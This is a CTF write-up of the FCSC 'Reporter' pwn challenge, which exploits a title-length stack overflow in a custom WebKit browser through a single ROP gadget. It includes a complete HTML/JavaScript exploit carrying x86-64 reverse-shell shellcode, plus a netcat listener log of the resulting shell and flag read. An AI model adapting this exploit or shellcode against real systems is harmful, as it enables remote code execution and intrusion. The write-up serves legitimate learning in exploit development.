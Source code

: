 # Reporter (pwn - 499 pts)

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
> http://challenges2.france-cybersecurity-challenge.fr:4009/

## Testing the water
As soon as I saw this description, I got hyped, "Cool a browser exploit !" I thought. "It's the perfect occasion to learn more about WebKit and JavaScriptCore"... What a fool.

Checksec gives us the following output :
![](@attachment/Clipboard_2021-04-30-20-43-43.png)

Keep in mind that there is no NX so we assume that all pages, including the stack and the heap are executable on the remote server.

`ldd fcsc_browser` terminated me :
```bash
libwebkit2gtk-4.0.so.37 => /lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f85355c3000)
libjavascriptcoregtk-4.0.so.18 => /lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f2ba5525000)
```
So no exploit for a custom version of WebKit or JSCore...

Jumping in Binary Ninja, we can see a bunch of C++ functions
![](@attachment/Clipboard_2021-04-30-20-55-21.png)

Starting from the top, we have the `addBrowser` function which uses the `memcpy` function to concatenate "FCSC Browser - " with the input string using the size of the input string. Keep that in mind.
![](@attachment/Clipboard_2021-04-30-21-01-16.png)

The `webview_title_change` function calls the `addBrowser` function with the utf8-decoded (with the `decode_utf8` function) page title retrieved with `webkit_web_view_get_title` function.
![](@attachment/Clipboard_2021-04-30-21-01-46.png)

Well then... this is pretty straightforward. Since we control the page title we have an overflow in the `addBrowser` function. That's the good part. The annoying part is that we can't use null bytes since it would terminate our payload.

## Discovering the bug
Create a `index.html` file, run `python3 -m http.server` and start `gdb` with `fcsc_browser` as parameter and run : `r 0.0.0.0:8000` for the browser to load our `index.html` straight away.
Here's its content :
```html
<script>
	var payload = "a";
	payload += "A".repeat(8);
	payload += "B".repeat(8);
	payload += "C".repeat(8);
	payload += "D".repeat(8);
	payload += "E".repeat(8);
	payload += "F".repeat(8);
	payload += "G".repeat(8);
	payload += "H".repeat(8);
	payload += "I".repeat(8);
	payload += "J".repeat(8);
	payload += "K".repeat(8);
	payload += "L".repeat(8);
	payload += "M".repeat(8);
	payload += "N".repeat(8);
	payload += "O".repeat(8);
	payload += "P".repeat(8);
	payload += "Q".repeat(8);
	payload += "R".repeat(8);

	document.title = payload;
</script>
```
We simply use JavaScript to create an "egg finder" that will find how many bytes are required in the title for us to overwrite the return address of the `addBrowser` function.
The little "a" at the beginning is just to make sure that the rest of the payload is 8-bytes aligned, making it easier to read (or maybe only prettier).

Once the browser ran in `gdb`, it segfault at the return of the function and we can see 8 "R"s at the top of the stack... We control the return address at `RRRRRRRR`.
![](@attachment/Clipboard_2021-05-01-22-23-50.png)

## Crafting the ropchain
"Easy !" you would think, as I did, but the absence of a null byte prevents you from crafting any ropchain longer than a single quadword (8 bytes) since pretty much every address contains several null bytes. So either we have to find another vuln that we can chain with this overflow (which I didn't find), or... you have to find a sort of "one ROP gadget" in the binary to jump on our page title.
In order to find every pointer to our input that we can set on top of the stack before `ret`ting, I ran a `gef config context.nb_lines_stack 500; context stack` to display 500 stack addresses containing a pointer to our input. Here they are :
```bash
0x00007fffffffd510│+0x0028: 0x0000000000a2c610  →  "FCSC Browser - aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEE[...]"	 ← $rax
0x00007fffffffd530│+0x0048: 0x00000000006d1b00  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd550│+0x0068: 0x00000000009c4f20  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd578│+0x0090: 0x00007fffffffd6f8  →  0x4c4c4c4c4c4c4c4b
0x00007fffffffd5a0│+0x00b8: 0x0000000000ae7090  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffdab0│+0x05c8: 0x00007fffe6efdd3b  →  "0.0.0.0:8000/"
```
The first one isn't viable since "FCSC Browser" aren't valid instructions.
I kept the last one in mind "just in case". We'll maybe have to buy a domain name containing an alphanumerical reverse-shell shellcode...
Using ropper, you can search for a specific semantic such as `reg+=value`, so we'll be searching for `rsp+=[72,104,152,184,1480]`
```
$ ropper --file fcsc_browser --semantic "rsp+=72"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=104"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=152"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=184"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=1480"
[INFO] 0 gadgets found
```
No gadget found. At this point, I entered a phase of despair and since the first stage of grief is denial, I started looking manually for gadgets that increased `rsp` as I wanted before executing `ret` with `ropper --file fcsc_browser`, just in case `ropper` had a bug on the `--semantic` option. Obviously I didn't find any gadget that would increment `rsp` for us before executing `ret`... but I found something quite interesting : `0x000000000040d593: jmp qword ptr [rax];`. Since `rax` is pointing to a heap pointer on the stack, itself pointing to the title, I started looking for something like something like `add BYTE PTR [rax],al` (which is pretty common since its opcode is `00 00`) in order to increment the heap pointer before `jmp qword ptr`ing on it... and there it was... the one gadget :
`0x0000000000403edf: add byte ptr [rax], ah; jmp qword ptr [rax];`
Please take a moment to admire the gadget.

Replace the all the `R` with `payload += String.fromCharCode(0xdf, 0x3e, 0x40);` in order to jump on our gadget.
![](@attachment/Clipboard_2021-05-01-22-59-07.png)
Only one nibble, in this case the four heaviest bits, of the `ah` reg is controlled by the ASLR so we'll just have to send multiple times our exploit in case it doesn't work straight away.
I found [this reverse-shell shellcode](http://shell-storm.org/shellcode/files/shellcode-857.php) and luckily enough, it didn't have any null byte in it. Once modified, craft the final exploit :
```html
<script>
	var payload = "";

	payload += "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a";
	payload += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0";
	payload += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24";
	payload += "\x02\x05\x39\xc7\x44\x24\x04" + String.fromCharCode(insert, your, IP, address) + "\x48\x89\xe6\x6a\x10";
	payload += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48";
	payload += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a";
	payload += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54";
	payload += "\x5f\x6a\x3b\x58\x0f\x05";

	payload = payload.padStart(136, "\x90");
	payload += "\x90";
  // 0x0000000000403edf
	payload += String.fromCharCode(0xdf, 0x3e, 0x40);

	document.title = payload;
</script>
```
The `payload.padStart(136, "\x90")` will serve a nop sled to our shellcode to increase the chances of success.
Once the exploit hosted on any IP, rerun a `python3 -m http.server` and send the link.
After a couple tries (actually fifteen), I got my shell :
```bash
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from received!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
fcsc_browser
flag
main.py
run.sh
static
templates
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

Yay !

## Conclusion

There's always a one gadget waiting for you, finding it depends on how much time you want to invest searching it
